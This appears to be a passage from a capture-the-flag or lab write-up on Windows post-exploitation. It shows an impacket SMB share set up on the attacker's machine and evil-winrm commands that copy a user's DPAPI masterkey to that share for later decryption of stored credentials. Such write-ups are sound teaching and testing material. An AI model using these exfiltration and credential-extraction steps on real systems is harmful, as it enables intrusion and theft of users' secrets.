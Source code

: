 <p class="indent-paragraph">
To facilitate the extraction of multiple sensitive files from the target system, an SMB share was set up on the attacker's machine using<code>impacket-smbserver</code><span class="codefix">.</span> By executing<code>impacket-smbserver share ./share -smb2support</code><span class="codefix">,</span> a writable SMBv2-compatible file share named<code>share</code> was made available. This allowed us to copy files from the compromised Windows host directly to our local directory via UNC paths (e.g.,<code>\<attacker-ip>\share</code>). This method proved efficient for retrieving artifacts such as the<code>masterkey</code> file, streamlining the collection process without relying on slower in-session downloads through<code>evil-winrm</code><span class="codefix">.</span>
</p>

```
~$ mkdir -p share

~$ impacket-smbserver share ./share -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
.......
```

<p class="indent-paragraph">
After gaining access with the <code>steph.cooper</code> account, we actively searched for DPAPI-related artifacts and located two critical files: a <code>masterkey</code> under <code>C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect</code> and a <code>credential blob</code> in <code>C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials</code><span class="codefix">.</span> To extract these files, a local SMB share was created using <code>impacket-smbserver</code><span class="codefix">,</span> allowing them to be remotely copied via <code>evil-winrm</code> using the <code>copy</code> command. Retrieving these files is essential in post-exploitation scenarios, as they can be combined with the user's password (or NT hash) to decrypt DPAPI-protected secrets using tools such as <code>SharpDPAPI</code> or <code>dpapi.py</code><span class="codefix">.</span> These secrets may include stored credentials, tokens, or other sensitive user data.
</p>

```
~$ *Evil-WinRM* PS C:\Users\steph.cooper> cd Appdata\Roaming\Microsoft\Protect
*Evil-WinRM* PS C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Protect> dir

    Directory: C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Protect

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-         5/29/2025   2:44 PM                S-1-5-21-1487982659-1829050783-2281216199-1107

*Evil-WinRM* PS C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Protect> copy "C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" "\<IP>\share\steph-masterkey"

*Evil-WinRM* PS C:\Users\steph.cooper\Appdata\Roaming\Microsoft> dir

    Directory: C:\Users\steph.cooper\Appdata\Roaming\Microsoft

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-          3/8/2025   7:53 AM                Credentials
d---s-          3/8/2025   7:40 AM                Crypto
d-----          3/8/2025   7:40 AM                Internet Explorer
d-----          3/8/2025   7:40 AM                Network
d---s-          3/8/2025   7:40 AM                Protect
d-----          5/8/2021   1:20 AM                Spelling
d---s-         2/23/2025   2:35 PM                SystemCertificates
```